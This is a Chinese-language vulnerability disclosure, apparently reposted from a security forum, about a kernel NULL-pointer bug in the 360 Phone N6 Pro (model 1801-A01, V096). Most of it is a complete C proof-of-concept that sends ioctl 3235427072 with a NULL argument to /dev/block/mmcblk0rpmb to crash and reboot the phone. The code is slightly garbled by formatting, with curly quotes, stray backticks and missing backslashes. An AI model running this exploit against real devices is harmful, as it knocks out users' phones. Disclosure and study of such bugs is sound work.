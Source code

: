 # 360 Phone N6 Pro内核漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3404](https://www.zhihuifly.com/t/topic/3404)

# 360 Phone N6 Pro内核漏洞

## 一、漏洞简介

360 Phone N6 Pro V096内核组件中的内核模块允许攻击者使用命令**3235427072**在设备/ dev / block / mmcblk0rpmb上通过ioctl的自变量注入精心设计的自变量，并导致内核崩溃。

## 二、漏洞影响

*   名称：360 Phone N6 Pro
*   型号：1801-A01
*   安卓版本：7.1.1
*   版本号：V096
*   内核版本：Linux localhost 4.4.21-perf＃1 SMP PREEMPT Wed Mar 28 28 15:24:20 UTC 2018 aarch64

## 三、复现过程

### poc

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = “/dev/block/mmcblk0rpmb”;

static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {

int fd = 0;

fd = open(driver, O_RDWR);

if (fd < 0) {

printf(“Failed to open %s, with errno %dn”, driver, errno);

system(“echo 1 > /data/local/tmp/log”);

return -1;

} `printf(“Try ioctl device file ‘%s’, with command 0x%x and payload NULLn”, driver, command);

printf(“System will crash and reboot.n”);

if(ioctl(fd, command, NULL) < 0) {

printf(“Allocation of structs failed, %dn”, errno);

system(“echo 2 > /data/local/tmp/log”);

return -1;

}

close(fd);

return 0;

}` 
```